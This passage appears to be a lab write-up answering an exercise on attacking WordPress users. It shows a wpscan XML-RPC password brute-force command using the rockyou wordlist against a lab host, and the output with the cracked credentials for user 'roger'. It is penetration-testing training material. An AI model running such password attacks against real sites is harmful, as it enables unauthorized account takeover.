 **Answer:** `sally.jones`

---
## Attacking WordPress Users
### Question:
![](./attachments/Pasted%20image%2020220805131147.png)

*Hint: You can find this wordlist under "/opt/SecLists/Passwords/Leaked-Databases" in the "rockyou.txt.tar.gz" archive. You must extract the wordlist file before being able to use it..*

```
┌──(kali㉿kali)-[~/Downloads]
└─$ wpscan --password-attack xmlrpc -t 20 -U roger -P ~/seclists/Passwords/Leaked-Databases/rockyou.txt --url http://178.62.115.160:32513

_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.22
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://178.62.115.160:32513/ [178.62.115.160]
[+] Started: Fri Aug  5 06:54:52 2022

Interesting Finding(s):

(...)

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:05 <===========================================================================> (137 / 137) 100.00% Time: 00:00:05

[i] No Config Backups Found.

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - roger / lizard
Trying roger / leonard Time: 00:01:22 <> (1900 / 14346291)  0.01%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: roger, Password: lizard
```
